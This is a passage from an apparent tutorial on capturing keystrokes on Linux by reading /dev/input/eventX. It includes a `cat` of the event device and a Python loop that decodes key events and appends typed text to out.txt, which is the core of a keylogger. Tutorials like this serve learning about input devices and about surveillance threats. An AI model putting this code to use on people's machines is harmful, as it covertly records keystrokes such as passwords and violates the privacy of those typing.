 It only remains to find the type that matches the keyboard (Where we have "EV = 120013") and choose the column before in the list which is the keyboard **eventX**.

**Step two: Pump Everything Up**

Are you curious like me? Let's see what happens if we directly listen to the keyboard event file:

```bash
cat /dev/input/event4
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/bede86af28b5e86c89fb2666e0c5ed16-3.png "Image-3")

As you can see, the output does not look friendly and is not digest, but it was to give you an overview of the content of the **eventX**.

* * *

###### HOW TO READ THE EVEN?

What you need to know is that the **eventX**, does not directly receive the characters hit on the keyboard but a data structure each time a key is pressed. The details of these a data structure are :

* **Timestamp**: The date of the event.
* **Even Code**: The type and code of the event (More information can be found [here](https://www.kernel.org/doc/html/v4.17/input/event-codes.html)).
* **Value**: A number that corresponds to the position of the key pressed.

Below the piece of code that will help us to retrieve all the needed information's:

```python
FORMAT = 'llHHI'
EVENT_SIZE = struct.calcsize(FORMAT)

in_file = open(infile_path, "rb")

event = in_file.read(EVENT_SIZE)
typed = ""

while event:
    (_, _, type, code, value) = struct.unpack(FORMAT, event)

    if code != 0 and type == 1 and value == 1:

        if code in qwerty_map:
            typed += qwerty_map[code]

    event = in_file.read(EVENT_SIZE)

    if len(typed) == 128:
        with open("out.txt", "a") as f:
            f.write(typed)
            typed = ""
```
